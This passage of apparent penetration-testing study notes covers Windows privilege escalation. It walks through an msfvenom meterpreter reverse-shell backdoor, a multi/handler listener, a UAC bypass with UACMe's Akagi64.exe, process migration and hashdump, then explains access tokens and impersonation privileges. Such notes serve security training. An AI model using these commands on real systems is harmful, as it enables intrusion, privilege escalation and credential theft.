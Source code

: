 Will first generate a payload with <r>msfvenom</r>
+ Example: `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.9.3 LPORT=1234 -f exe > backdoor.exe`

Then will set up a listener in <r>msfconsole</r>
+ Example: `use multi/handler`
+ then set the payload: `set payload windows/meterpreter/reverse_tcp`
+ set LHOST and LPORT

Will go back to the meterpreter session on the target
+ Will `mkdir Temp` as it is a good place to put exe's
+ Will `upload backdoor.exe`
+ And upload the UACMe payload, Example: `upload /root/Desktop/tools/UACME/Akagi64.exe`
+ To run, will `.\Akagi64.exe 23 c:\Temp\backdoor.exe`, and can check listener that it works
  + where 23 represents the key or method
+ The listener will now start and can run `getprivs` to see if it worked
+ can see what other process are running with `ps` and even migrate to them with `migrate PROCESS_NUMBER`
  + After that can do something like get the hashes with `hashdump`

### Access Token Impersonation ###

#### Windows Access Tokens ####
+ Windows access tokes are a core element of the authentication process on Windows and are created and managed by the ***Local Security Subsystem Service*** (LSASS)
+ Windows access token is responsible for identifying and describing the security context of a process or thread running on a system. Simply put, an access toke can be thought of as a temporary key akin to a web cookie that provides users with access to a system or network resources without having to provide credentials each time a process is started or a system resources is accessed.
+ Access tokens are generated by the `winlogon.exe` process every-time a user authenticates successfully and includes the identity and privileges of the user account associated with the thread or process. This token is then attached to the `userinit.exe` process, after which all child processes started by a user will inherit a copy of the access token from their creator and will run under the privileges of the same access token 
+ Windows access tokens are categorized based on the varying security levels assigned to them 
  + These security levels are used to determine the privileges that are assigned to a specific token 
+ An access token will typically be assigned one of the following security levels:
  + <b>Impersonate-level</b> tokens are created as a direct result of a non-interactive login on Windows, typically through specific system services or domain logons
    + <o>Can be used to impersonate a token on the local system and not any external systems that utilize the token</o>
  + <b>Delegate-level</b> tokens are typically created through an interactive login on windows, primarily through a tradition login, or through RDP
    + <o>Pose the</o> <r>largest threat</r> <o>as they can be used to impersonate tokens on any system

#### Windows Privileges ####
+ The process of impersonating access tokens to elevate privileges on a system will primarily depend on the privileges assigned to the account that has been exploited to gain initial access as well as the impersonation or delegation tokens available 
+ The following are the privileges that are required for successful impersonation attacks:
  + <o>`SeAssignPrimaryToken`</o>: Allows a user to impersonate tokens
  + <o>`SeCreateToken`</o>: This allows a user to create an arbitrary token with admin privileges 
  + <o>`SeImpersonatePrivilege`</o>: Allows a user to create a process under the security context of another user typically with admin privileges 
